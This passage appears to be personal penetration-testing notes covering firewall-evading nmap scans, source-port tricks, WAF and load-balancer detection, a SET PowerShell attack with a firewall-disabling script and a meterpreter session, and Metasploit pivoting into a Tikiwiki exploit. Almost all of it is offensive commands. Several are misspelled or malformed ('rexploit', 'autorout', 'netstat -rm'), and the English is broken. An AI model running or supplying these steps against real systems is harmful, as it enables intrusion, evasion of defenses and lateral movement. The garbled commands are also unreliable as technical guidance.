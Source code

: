 ## <a name="8.4"></a>8.4 Scanning  against defenses
* `nmap -sS ip_address`
* `nmap -sS ip_address`
* `nmap -sC ip_address`
* When their is filter applied.
	* Than go to wireshark.
	* And use filter [TCP.flags.syn ==1 and TCP.flags.ack == 1]
* `iptables -A INPUT -J REJECT --reject-with-icmp-host-prohibited`
* CISCO router
	* apt get install dynagin.
	* get the cisco ios.
* Source port scanning
	* `nmap -sS ip_address -Pn` 
	* Active ftp
		* 20
	* `nc -p 20 ip_address port_number`
	* wrieshark -> TCP.port == 20 ->capture 
	* `nmap -g 20 -sS ip_address/range` 
		* g=source port
	* Services scan
		* `nmap -g 20 -sV ip_address 
	* `nmap -sS ip_address -Pn`
	* `nmap -g 20 -A ip_addresss`
	* Check Metasploit if it has the exploit sometime it don't find the option.
	* `show advanced option`
	* `set CPORT 20`
	* `set LPORT 123`
	* If you get session try change payload
	* `rexploit`
	* Try restart the OS
	* `c:\>netstat -rm`

* Low balancing
	* [Netcraft](netcraft.com)
	* `hping3 -S domain_name -p port_number`
	* `arp -a`
	* `lbd domain_name`
	* `wafw00f domain_name`
	* `obfuscation`
		* `hackbar`
* SET tool
	* 9 - powershell attack vector
	* l for numeric shellcode
	* `ip_address`
	* `set port`
	* turn off firewall using script
	* `run in powershell\`
	* and session -i 1 in meterpreteer
## <a name="8.5"></a>8.5 Pivoting
* `run autorout -s ip_address`
* `run autoroute -packet`
* Search for subnet
	* `run /exploit/auxilary/arp_scanner` 
* Searching for next machine
	* `search smb version`
* `set RHOST ip_address`
* `set threads 50`
* `run`
* And wait
* Here in this scenario we have tikiwiki vulnerability 
	* `search tikiwiki`
* `use exploit/unix/webapp/tikiwiki_graph_formula`